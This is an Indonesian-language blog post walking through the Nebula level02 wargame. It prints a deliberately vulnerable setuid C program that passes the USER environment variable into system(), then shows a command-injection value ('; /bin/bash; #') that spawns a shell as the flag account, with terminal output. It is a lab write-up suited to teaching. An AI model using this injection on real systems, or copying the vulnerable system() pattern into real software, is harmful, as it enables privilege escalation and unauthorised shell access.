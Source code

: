 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-10T05:30:30+00:00"
description = "Security Wargames"
featured = "x44905647871.jpg"
featuredalt = "Nebula Level02"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level02"
type = "post"

+++
Dalam {{< url-link "level02" "https://exploit-exercises.com/nebula/level02/" "target">}} ini menginstruksikan kita untuk meninjau kode C yang rentan dan menemukan vektor serangannya. Program ini membahas kerentanan dari {{< url-link "tingkat sebelumnya" "https://muhammadzakyzulfiqor.xyz/article/nebula-level01/" "target">}} namun ada vektor baru.

Source code untuk referensinya disertakan di bawah ini:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
    char *buffer;
    
    gid_t gid;
    uid_t uid;
    
    gid = getegid();
    uid = geteuid();
    
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    buffer = NULL;
    
    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
    }

Seperti yang Anda lihat, "echo" dipanggil oleh path absolutnya tetapi getenv("USER")) memanggil variabel lingkungan $USER. Seperti masalah di level01, variabel ini diatur dalam shell saat ini yang dapat dimanipulasi.

Mari kita modifikasi variabel $USER untuk memasukkan input yang berbeda.

    level02@nebula:/home/flag02$ echo ${USER}
    level02
    level02@nebula:/home/flag02$ USER="; /bin/bash; #"
    level02@nebula:/home/flag02$ echo ${USER}
    ; /bin/bash; #

Seperti yang dapat dilihat dalam kode di atas, saya memodifikasi variabel lingkungan USER yang menjadi berisi "; /bin/bash; #".

Titik  koma ditambahkan untuk menghentikan perintah saat ini dan memulai yang baru, yang memungkinkan kita menghentikan panggilan "echo" dan _spawn a shell_. Diakhir, saya menambahkan  sebuah _octothorp (#)_ untuk memberi komentar pada garis "is cool" yang akan menciptakan keluaran yang salah.

Mari kita jalankan flag02 dan amati hasilnya:

    level02@nebula:/home/flag02$ id
    uid=1003(level02) gid=1003(level02) groups=1003(level02)
    level02@nebula:/home/flag02$ ./flag02
    about to call system("/bin/echo ; /bin/bash; # is cool")
    
    flag02@nebula:/home/flag02$ id
    uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
    flag02@nebula:/home/flag02$ getflag
    You have successfully executed getflag on a target account

Dan yaps, trik ini berhasil. Tingkat ini menunjukkan bahaya penggunaan variabel lingkungan dalam script dan masukan pengguna yang dipercaya.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/hfsHjJbE6J8?rel=0"></iframe></div></div>